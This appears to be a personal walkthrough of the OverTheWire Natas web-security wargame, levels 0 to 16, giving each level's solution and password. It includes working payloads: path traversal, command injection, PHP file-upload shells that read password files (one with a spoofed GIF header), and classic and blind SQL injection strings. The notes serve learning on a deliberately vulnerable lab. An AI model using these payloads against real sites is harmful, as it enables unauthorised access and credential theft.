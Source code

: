 # [Natas](https://overthewire.org/wargames/natas)

## Quick Tips

* All passwords are in _/etc/natas\_webpass_
* [W3 Schools PHP compiler](https://www.w3schools.com/php/phptryit.asp?filename=tryphp_compiler)
* [CyberChef](https://gchq.github.io/CyberChef) = build a sequence of converting, formatting, en/decoding

## Levels

* natas0 = login with given login/password, check source (**0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq**)
* natas1 = password is in source (**TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI**)
* natas2 = there's an image in _files_ directory so just go there to find password file (**3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH**)
* natas3 = source mentions Google, so check out _./robots.txt_, references _/s3cr3t_ folder (**QryZXc2e0zahULdHrtHxzyYkj59kUxLQ**)
* natas4
  * Either install a referer modifier browser extension to spoof referer URL to natas5
  * Or go to natas5 page and redirect via js console `location.assign("http://natas4.natas.labs.overthewire.org");` (**0n35PkggAPm2zbEpOU802c0x0Msn1ToK**)
* natas5 = edit cookie (**0RoJwHdSKWFTYR5WuiAewauSuNaBXned**)
* natas6
  * View source code, it references a secret-holding file in _includes/secret.inx_ (**FOEIUWGHFEEUHOFUOIU**)
  * Post that data (**bmg8SvU1LizuWjx3y7xkNERkHxGre0GS**)
* natas7
  * Hint in source reminds us where passwords are saved on the machine, and we can use unsanitized DT to access it
  * `index.php?page=/etc/natas_webpass/natas8` (**xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q**)
* natas8
  * Code Source, we must reverse encoded secret (**3d3d516343746d4d6d6c315669563362**)
  * hex2bin (not a binary number but a binary representation **==QcCtmMml1ViV3b**)
  * Reversed (**b3ViV1lmMmtCcQ==**)
  * Base 64 decode (**oubWYf2kBq**)
  * Paste that into form (**ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t**)
* natas9
  * Sourcecode reveals request argument is injected as-is & executed via _passthru_, so command inject
  * `. /etc/natas_webpass/natas10 #` (**t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu**)
* natas10
  * `. /etc/natas_webpass/natas11 #` (**UJdqkK1pTu6VLt9UHWAgRZz6sVUZ3lEk**)
* natas11
  * (Don't modify initial color _#ffffff_)
  * Fetch cookie _data_ & URL-decode it (**HmYkBwozJw4WNyAAFyB1VUcqOE1JZjUIBis7ABdmbU1GIjEJAyIxTRg=**)
  * Take default array use `json_encode()` (**{"showpassword":"no","bgcolor":"#ffffff"}**)
    * Optional: `base64_encode()` it (**eyJzaG93cGFzc3dvcmQiOiJubyIsImJnY29sb3IiOiIjZmZmZmZmIn0=** as seen in <https://learnhacking.io/overthewire-natas-level-11-walkthrough>)
  * As XOR is an associative operation, we can Base64-decode cookie and XOR it against default array json to get key (**eDWo**)
    * Use CyberChef with a _From Base64_ & a _XOR_ step, using default array json as (string-type) key
    * If we computed a Base64 value for json default array, we can also use it here as Base64 key (it will then get automatically decoded back to json, so unnecessary step really)
  * With key in hand, edit array to set _showpassword_ to _yes_ and XOR that json with (string-type, not Base64) key (**HmYkBwozJw4WNyAAFyB1VUc9MhxHaHUNAic4Awo2dVVHZzEJAyIxCUc5**)
  * Edit cookie with that value (**yZdkjAYZRd3R7tq7T5kXMjMJlOIkzDeB**)
* natas12
  * Sourcecode generates a random file name both as hidden input & server-side before it gets uploaded
  * There is no verification that a file really has a _.jpg_ extension anywhere
  * The extension from the hidden input is passed along and appears in the final file name
  * That means we can upload a file and change the extension in the input field name to something more php
  * (Also there is a 1000 bytes limit)
  * Create a file with this content `<?php echo file_get_contents("/etc/natas_webpass/natas13"); ?>`
  * Change its extension to _.php_ before uploading it (**trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC**)
* natas13
  * Same as previous, but we need to pass the PHP `exif_imagetype()` checking method
  * See <https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack>
  * That can be achieved by spoofing a file's [Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures)
  * Tried prepending some binary JPG & PNG signatures but they were rejected, however GIF format worked
  * Create a file (with any extension) and this content: `GIF87a <?php echo file_get_contents("/etc/natas_webpass/natas14"); ?>`
  * Change its extension to _.php_ before uploading it (**z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ**)
* natas14
  * `" OR 1=1 #` or <code>" OR 1=1 -- </code> (notice the mandatory trailing space for MySQL to consider it an actual comment, **SdqIqBsFcz3yotlNYErZSZwblkm0lrvx**)
* natas15
  * `natas16` = displays a different result when user exists (blind boolean SQLi) so now we need his password
  * `natas16" AND STRCMP(password COLLATE utf8mb4_bin, 'h' COLLATE utf8mb4_bin) = 1 #` = brute-forcing it manually via dichotomic string comparison, but still going to take a while
  * Create a brute-force script that HTTP Post all password combinations (**hPkjKYviLQctEW33QmuXL6eDVfMW4sGo**)
* natas16
  * ``` ; | & ` ' " ``` = cannot use one of those
* natas17
* natas18
* natas19
* natas20
* natas21
* natas22
* natas23
* natas24
* natas25
* natas26
* natas27
* natas28
* natas29
* natas30
